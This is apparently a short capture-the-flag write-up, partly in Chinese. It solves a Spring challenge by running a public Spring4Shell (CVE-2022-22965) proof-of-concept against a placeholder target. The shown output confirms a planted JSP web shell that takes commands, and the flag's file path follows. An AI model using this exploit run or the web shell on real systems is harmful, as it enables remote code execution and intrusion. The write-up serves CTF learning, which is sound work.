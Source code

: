 ## How Beautiful Spring Is

CVE-2022-22965: Spring-Core-Rce, a.k.a. spring4shell

随便找个 poc 打一打就行了。

```bash
$ git clone https://github.com/reznok/Spring4Shell-POC
$ cd Spring4Shell-POC
$ python3 exploit.py --url http://ip:port/api/meow
[*] Resetting Log Variables.
[*] Response code: 200
[*] Modifying Log Configurations
[*] Response code: 200
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 200
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://ip:port/shell.jsp?cmd=id
```

flag 在 根目录下的 `/'.fl@g_1S_h3re'`（动态 flag